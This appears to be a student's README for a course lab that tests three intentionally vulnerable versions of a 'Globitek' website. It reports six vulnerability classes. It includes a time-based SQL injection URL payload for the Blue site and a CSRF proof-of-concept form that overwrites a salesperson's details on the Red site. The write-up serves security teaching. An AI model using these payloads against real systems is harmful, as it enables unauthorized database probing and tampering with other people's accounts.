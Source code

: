 # Project 8 - Pentesting Live Targets

Time spent: **7** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection
blue/public/salesperson.php?id=' OR SLEEP(5)=0--'

Vulnerability #2: Session Hijacking/Fixation
Blue doesn't refresh and validate session ID frequently.


## Green

Vulnerability #1: User Enumeration
The error message shown when a username exists and log in was unsuccessful is bolded while it's not when the username does not exist.

Vulnerability #2: Cross-Site Scripting
Code can be entered for XXS in the Contact form.


## Red

Vulnerability #1: Insecure Direct Object Reference
red/public/salesperson.php?id=10 and red/public/salesperson.php?id=11 are available through URL manipulation.

Vulnerability #2: Cross-Site Request Forgery
red/public/staff/salespeople/edit.php is vulnerable to CSRF
<form action="https://35.184.91.184/red/public/staff/salespeople/edit.php?id=5" method="post">
  <input type="text" name="first_name" value="HACKED">
  <input type="text" name="last_name" value="HACKED">
  <input type="text" name="phone" value="000-000-0000">
  <input type="text" name="email" value="hacked@hacked.com">
  <input type="submit" value="Submit">
</form>



## Notes

Describe any challenges encountered while doing the work


